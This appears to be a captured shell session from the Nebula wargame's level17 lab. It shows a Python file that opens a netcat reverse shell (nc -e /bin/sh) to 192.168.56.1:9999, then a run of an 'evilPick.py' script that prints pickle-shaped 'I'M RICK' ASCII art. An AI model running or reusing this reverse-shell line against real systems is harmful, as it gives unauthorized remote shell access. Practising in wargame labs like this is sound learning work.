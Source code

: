 ```shellsession
level17@nebula:/tmp$ cat > rce.py
import os
os.system("nc.traditional -e /bin/sh 192.168.56.1 9999")
^C
level17@nebula:/tmp$ python evilPick.py --foo rce.py 
                             
                                                           -oysoosyyyo:`                            
                                                         :yyys+ossssyyyy+.                          
                                                       `oyyyysoo++oosyyyyy/                         
                                                      `yyyo//ossssss/syyyyy:                        
                                                     .yyy-`-``:ssssossyyyyyo                        
                                                    .yyyy.````-/.`.:osyyyyyy                        
                                                   -yyysyy+:/++``-.`:yyyyyyy                        
                                                  /yhhmNhssysss:.``-syyyyyyo                        
                                                 +yyhdNNmysysssyssyyyyyyyyy.                        
                                               `oyyysyhdNmmmhdmddyyyyyyyyy+                         
                                              `syhyysssyshdmmddNNmhyyyyyyy`                         
                                             `syyyyssssssssyohhmmdyyyyyyy-                          
                                            `syyyyyssssssssssshhyyyyyyyy:                           
                                           .syyyyysssssssssssyyyyyyyyyy/                            
                                          -yyyyyyssssssssssyyyyyyyyyyyo                             
                                         :yyyyyyssssssssssyyyyyyyyyyyo`                             
                                       `+yyyyyysssssssssyyyyyyyyyyyys`                              
                                      .syyyyyssssssssyyyyyyyyyyyyyys`                               
                                     :yyyyysssssssssyyyyyyyyyyyyyys.                                
                                   .oyyyyyssssssssyyyyyyyyyyyhyyyy.                                 
                                 `/syyyyysssssssssyyyyyyyyyyyyyyy-                                  
                               `:syyyyyysssssssssyyyyyyyyyyyyyys.                                   
                              -oyyyyyyysssssssssyyyyyyyyyyyyyyo`             I'M                       
                            `+yyyyyyhyssssssssyyyyyyyyyyyyyyy+              RICK                        
                           .syhyyyysssssssssyyyyyyyyyyyyyyyy/                                       
                          :yyyyyyyssssssssyyyyyyyyyyyyyyyyy-                                        
                         :yyyyyyssssssssyyyyyyyyyyyyyyyyyo.                                         
                        .hyyyyyssssssssyyyyyyyyyyyyyyyys-                                           
```
